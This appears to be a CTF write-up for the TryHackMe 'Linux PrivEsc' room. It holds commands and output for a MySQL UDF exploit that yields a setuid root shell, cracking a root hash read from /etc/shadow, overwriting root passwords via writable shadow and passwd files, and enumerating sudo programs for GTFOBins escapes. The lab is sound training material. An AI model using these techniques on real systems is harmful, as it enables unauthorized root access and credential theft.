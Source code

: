 # TryHackMe: Linux PrivEsc (Write-up)

A [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) is a TryHackMe CTF focussed on Linux privilege escalation.

## [Task 1] Deploy the Vulnerable Debian VM

Deploy the machine and connect with given credentials, `user`:`password321` via SSH.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/linuxprivesc$ ssh user@10.10.0.141
The authenticity of host '10.10.0.141 (10.10.0.141)' can't be established.
RSA key fingerprint is SHA256:JwwPVfqC+8LPQda0B9wFLZzXCXcoAho6s8wYGjktAnk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.0.141' (RSA) to the list of known hosts.
user@10.10.0.141's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 15 06:41:23 2020 from 192.168.1.125
user@debian:~$ 
```

Once connected, run the `id` command.

```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

## [Task 2] Service Exploits

Compile, use and exploit the MySQL functions app as per the task requirement.

```shell
user@debian:~$ ls
myvpn.ovpn  tools
user@debian:~$ cd tools; ls
kernel-exploits  mysql-udf  nginx  privesc-scripts  sudo  suid
user@debian:~/tools$ cd mysql-udf/
$ ls
raptor_udf2.c
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
o foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';Query OK, 0 rows affected (0.26 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> /tmp/rootbash -p
    -> ;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '/tmp/rootbash -p' at line 1
mysql> exit
Bye
$ /tmp/rootbash -p
rootbash-4.1# rm /tmp/rootbash
```

## [Task 3] Weak File Permissions - Readable /etc/shadow

```shell
# access /etc/shadows with poor permissions
$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```

```shell
# crack root password hash with john
kali@kali:~/Desktop/repos/ctf/try-hack-me/linuxprivesc$ echo '$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.' > hash.txt
kali@kali:~/Desktop/repos/ctf/try-hack-me/linuxprivesc$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password321      (?)
1g 0:00:00:14 DONE (2020-09-26 01:12) 0.06901g/s 4275p/s 4275c/s 4275C/s simone13..kelly17
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Root password's suffix numbers are in wrong order. 
Something wrong with room.
Use _123_ not _321_.

## [Task 4] Weak File Permissions - Writable /etc/shadow

Can see that `/etc/shadow` is writable. Create a make a password with SHA-512 hash. Replace `root` hash in shadow file. Switch user with `su` to login as `root`.

```shell
$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow

$ mkpasswd -m sha512 newpasswordhere
Invalid method 'sha512'.

$ mkpasswd -m sha-512 newpasswordhere
$6$o0AZV4Rs4FkQ$C20XNXZvyb93.MDhs/QkjRdFXMq708bu4Enggz30Uo5ek/OP5H2WcfsZcLNxxSiSL6lRA0HuwyV0FDBijSJRh0

$ nano /etc/shadow

$ su root
Password: 

root@debian:/home/user/tools/mysql-udf# 
```

## [Task 5] Weak File Permissions - Writable /etc/passwd 

Write permissions on /etc/passwd can be exploited.

```shell
user@debian:~/tools/mysql-udf$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~/tools/mysql-udf$ openssl passwd newpasswordhere
Warning: truncating password to 8 characters
FaINQ1evqPxvU
user@debian:~/tools/mysql-udf$ nano /etc/passwd
```

Replace the root password in nano, or the text editor of your choice.

```
root:FaINQ1evqPxvU:0:0:root:/root:/bin/bash
```

```shell
user@debian:~/tools/mysql-udf$ su root
Password: 
root@debian:/home/user/tools/mysql-udf# 
```

Then run `id` as `root`.

```
root@debian:/home/user/tools/mysql-udf# id
uid=0(root) gid=0(root) groups=0(root)
```

## [Task 6] Sudo - Shell Escape Sequences 

Running `sudo -l` reveals a list of programs your user can run as `root`.

```
user@debian:~/tools/mysql-udf$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

These can then be researched on [GTFOBins](https://gtfobins.github.io/) for privilege escalation.

The user can run 11 files as root.

```
user@debian:~/tools/mysql-udf$ sudo -l | grep '(root)' | wc -l
11
```

The file `apache2` does not have a shell escape command on GTFOBins. However, you could run a webserver with `root` privileges and exploit some malicious code with, _for example_, PHP.






